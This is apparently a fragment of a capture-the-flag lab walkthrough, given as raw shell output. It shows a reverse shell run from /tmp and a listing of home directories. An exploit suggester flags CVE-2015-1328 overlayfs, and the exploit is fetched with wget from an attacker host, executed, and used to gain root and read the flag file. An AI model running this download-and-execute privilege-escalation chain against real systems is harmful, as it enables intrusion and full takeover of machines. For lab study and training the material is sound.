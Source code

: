 sh -c '/tmp/rev'
2020



www-data@ubuntu:/tmp$ ls -al /home
ls -al /home
total 20
drwxr-xr-x  5 root    root    4096 Apr 29  2018 .
drwxr-xr-x 22 root    root    4096 Apr 24  2018 ..
drwxr-xr-x  4 boris   boris   4096 Apr 14 08:33 boris
drwxr-xr-x  4 doak    doak    4096 Apr 28  2018 doak
drwxr-xr-x  4 natalya natalya 4096 Apr 28  2018 natalya




[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

www-data@ubuntu:/var/www/html/dir007key$ wget http://192.168.56.1:8888/37292
wget http://192.168.56.1:8888/37292
--2021-04-14 12:19:43--  http://192.168.56.1:8888/37292
Connecting to 192.168.56.1:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 17592 (17K) [application/octet-stream]
Saving to: '37292'

100%[======================================>] 17,592      --.-K/s   in 0s      

2021-04-14 12:19:43 (289 MB/s) - '37292' saved [17592/17592]

www-data@ubuntu:/var/www/html/dir007key$ chmod +x 37292
chmod +x 37292
www-data@ubuntu:/var/www/html/dir007key$ ./37292
./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)



# cat .flag.txt
cat .flag.txt
Alec told me to place the codes here: 
